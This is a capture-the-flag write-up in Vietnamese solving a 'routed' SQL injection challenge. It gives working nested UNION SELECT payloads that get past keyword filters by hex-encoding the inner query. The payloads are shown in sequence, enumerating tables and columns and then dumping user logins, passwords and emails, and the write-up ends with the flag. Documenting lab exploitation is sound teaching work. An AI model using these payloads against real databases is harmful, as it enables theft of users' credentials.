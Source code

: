 # SQL Injection - Routed
## Solution

![image](https://user-images.githubusercontent.com/86184794/162607936-1fa1287f-5266-4935-984e-5c5ddd5878a2.png)

Ban đầu challenge cho em một websie như thế này. Trong website này có 2 tab cần chú ý đến đó là Home (chứa form login), Search (chứa ô input search).

Sau khi thử 1 input `1'` lần lượt vào 2 tab để kiểm tra xem tab nào có thể khai thác được.

![image](https://user-images.githubusercontent.com/86184794/162608051-a1ea292a-b88b-46e3-9a00-d32adf0dba50.png)

Em thấy bên tab Search câu truy vấn của em đã đến được server. Và server sử dụng cơ sở dữ liệu là MariaDB.

Sau đó em kiểm tra được ô input filter các kí tự như: `and`, `or` , `,` `"`

Với cách filter này thì em sẽ encode những kí tự này là bypass được rồi

Bây giờ em sẽ giải thích sơ qua về kiểu truy vấn Route SQL. Trong challenge này thì nơi mà chúng ta có thể chèn code vào đó là mệnh đề `WHERE` nhưng output của câu truy vấn không được hiện ra ngoài mà output đó tiếp tục được đưa vào 1 mệnh đề `WHERE` khác nữa, xong rồi output mới được hiện lên trên trang web.

Bình thường thì chúng ta hay sử dụng `UNION SELECT 1 -- ` thì sẽ hiện ra `1` nhưng trong trường hợp này thì không hiện ra cái gì luôn.

![image](https://user-images.githubusercontent.com/86184794/162608375-42ddc17f-28f4-48b0-b8d4-58551f88fded.png)

Như vậy ý tưởng để khai thác bài này là em sẽ tạo ra những câu truy vấn lồng nhau.

Ví dụ:
```
' union select "'union select 1 ' -- " -- 
```

Đoạn truy vấn trên sẽ vào câu lệnh đầu tiên thực hiện `' union select "{câu lệnh truy vấn tiếp theo}" --`. Output sẽ trả ra là `{câu lệnh truy vấn tiếp theo}`. Ví dụ `{câu lệnh truy vấn tiếp theo}` là `'union select 1 -- ` thì output `'union select 1 -- ` sẽ được truyền vào mệnh đề `WHERE` của câu truy vấn thứ 2. Và kết quả sau câu truy vấn thứ 2 sẽ được in ra màn hình. Bây giờ em chỉ cần đổi câu truy vấn `select 1` thành bất kì câu truy vấn gì để in ra kết quả em muốn nhưng câu truy vấn này phải convert sang hex để tránh bị server filter.

Ví dụ: 
```
' union select "' union select 1,2 -- " -- 
```
Convert sang hex sẽ thành:
```
' union select 0x2720756e696f6e2073656c65637420312c32202d2d20 -- 
```

![image](https://user-images.githubusercontent.com/86184794/162609033-38df73cf-8760-458d-acd5-85ebb301770c.png)

Challenge không hiện thông báo lỗi như vậy thì số cột trong table trả về là 2 cột.

Như vậy giờ em sẽ chọn cột thứ 2 để khai thác vì cột này là cột email nên có thể in ra các chữ, số.

Input:
```
' union select "' union select 1, group_concat(table_name) from information_schema.tables -- " -- 
```
Convert sang hex thành:
```
' union select 0x2720756e696f6e2073656c65637420312c2067726f75705f636f6e636174287461626c655f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573202d2d20 -- 
```

![image](https://user-images.githubusercontent.com/86184794/162609325-0e629b7a-1f5e-45fa-a738-f3a9c6ca8c5e.png)

Trong cơ sở dữ liệu MariaDB thì bảng được thêm vào thường nằm ở cuối.

![image](https://user-images.githubusercontent.com/86184794/162609344-26a7943b-cf9a-487c-8fef-63df582537d3.png)

Như vậy giờ em sẽ in ra các trường trong bảng `users`

Input:
```
' union select "' union select 1, group_concat(column_name) from information_schema.columns where table_name='users' -- " -- 
```
Convert sang hex sẽ thành:
```
' union select 0x2720756e696f6e2073656c65637420312c2067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d27757365727327202d2d20 -- 
```

![image](https://user-images.githubusercontent.com/86184794/162609540-81ea72e0-d9f8-47cb-b75f-59991f925fd6.png)

Em được kết quả trong bảng `users` gồm có 4 trường là : `id`,`login`,`password`,`email`

Giờ em sẽ show ra giá trị của các trường trong bảng users

Input:
```
' union select "' union select 1, group_concat(id, ':', login, ':', password, ':', email) from users -- " -- 
```
Convet sang mã hex thành:
```
' union select 0x2720756e696f6e2073656c65637420312c2067726f75705f636f6e6361742869642c20273a272c206c6f67696e2c20273a272c2070617373776f72642c20273a272c20656d61696c292066726f6d207573657273202d2d20 -- 
```

Kết quả:
![image](https://user-images.githubusercontent.com/86184794/162609693-015253a7-882f-4a34-a183-91538ba0b7f3.png)

Flag: qs89QdAs9A
